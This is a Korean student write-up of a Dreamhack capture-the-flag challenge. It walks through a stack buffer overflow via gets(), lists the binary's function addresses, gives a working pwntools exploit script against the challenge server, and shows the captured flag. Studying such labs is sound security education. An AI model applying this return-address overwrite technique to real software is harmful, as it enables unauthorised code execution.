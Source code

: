 # basic_exploitation_001 파일의 분석 보고서
## 로직
main 함수에서 128byte짜리 buf를 선언하고 initialize 함수 호출,
버퍼의 크기를 0으로 설정함으로써 버퍼를 없애고 signal 함수를 통해 알람이 울리면 alarm_handler 함수가 호출되도록 한다.
30초 알람을 설정하고, 30초가 지나면 alarm_handler 함수에서 "TIME OUT"이라는 문자를 출력한 뒤 프로그램은 종료된다.

## Flag 획득 방법
read_flag 함수 안에 shell 명령어로 root에 저장되어 있는 flag 파일을 출력하는 방식으로 보인다.
그러므로 read_flag 함수를 실행시켜야 하는데 read_flag 함수를 호출하는 문은 없으니 강제로 실행시켜야 할 거 같다.

## 문제 풀이 계획
main 함수에서 선언된 지역변수 buf는 128byte이다. 
gets 입력을 통해 128byte + SFP(4byte)를 넘겨 입력한다면, RET 값을 변경할 수 있다.
반환될 주소 값으로 read_flag 함수의 메모리 주소를 넘겨준다면, flag를 출력할 것으로 예상된다.

## 문제 풀이
i fu 명령어를 사용해 함수 목록을 불러온다.
```
All defined functions:

Non-debugging symbols:
0x08048398  _init
0x080483d0  gets@plt
0x080483e0  signal@plt
0x080483f0  alarm@plt
0x08048400  puts@plt
0x08048410  system@plt
0x08048420  exit@plt
0x08048430  __libc_start_main@plt
0x08048440  setvbuf@plt
0x08048460  _start
0x08048490  __x86.get_pc_thunk.bx
0x080484a0  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048530  frame_dummy
0x0804855b  alarm_handler
0x08048572  initialize
0x080485b9  read_flag // Flag 출력 함수
0x080485cc  main
0x080485f0  __libc_csu_init
0x08048650  __libc_csu_fini
0x08048654  _fini
```
우리는 RET 값을 조작해 read_flag 함수를 호출해야 되니, read_flag 함수의 메모리 주소 '0x080485b9'를 복사해준다.

수업 시간에 배운 Pwntools를 이용해 서버에 요청을 보내는 Python 파일을 작성해보겠다.
```
from pwn import *

p = remote("host3.dreamhack.games", 10751)

text = "\x90"*132
text += p32(0x080485b9)

p.sendline(text)
p.interactive()
```
pwntools를 import 하고, NOP로 버퍼와 SFP를 채우는 문자를 작성하고, 
그 뒤 리틀엔디안 패킹 방식으로 read_flag 함수의 메모리 주소를 전달하기 위해 p32 함수를 이용하여 메모리 주소를 적어준다.
sendline 함수로 작성한 텍스트를 전송하고, Interactive 모드로 전환한다.

그 후 실행하면...
```
root@479ffb30c31c:~/cyber_guardians-pwnable/220924_Homework/2. Dreamhack# python DH_pwn.py
[+] Opening connection to host3.dreamhack.games on port 10751: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive
```
Flag가 출력되는 것을 볼 수 있다.

## 알게 된 내용
### 스택의 기본 구조
스택은 Buffer + SFP(4byte) + RET(4byte)로 구성된다.

#### Buffer
버퍼는 데이터가 저장되는 공간이다.

#### SFP
SFP는 스택 베이스 값을 뜻한다.
스택 주소값을 계산, 현재 스택값을 기준으로 할 때 필요한 프레임 포인터의 값을 저장한다.

#### RET
RET은 Return의 약자로 다음에 실행해야 할 명령이 존재하는 메모리 주소를 가지고 있다.
그러므로 RET에 있는 메모리 주소를 변경하게 된다면, 원하는 명령을 실행할 수 있다.

## 여담
파이썬 파일의 이름을 pwn.py로 했다가
```
NameError: name 'remote' is not defined
```
remote가 정의되지 않았다는 오류를 엄청나게 보았는데, 난 멍청하게 '왜 패키지를 못 불러오지..?' 라는 생각만 했다. ㅋㅋㅋ
패키지 업데이트도 해보고 파이썬 버전도 바꿔봤는데 계속 오류가 났다.

그렇게 Stackoverflow를 뒤지다가 나 같은 사람이 작성한 글을 보게 되었다. ㅋㅋ.....

"아.. 내 파이썬 파일 이름이 pwn 이구나.."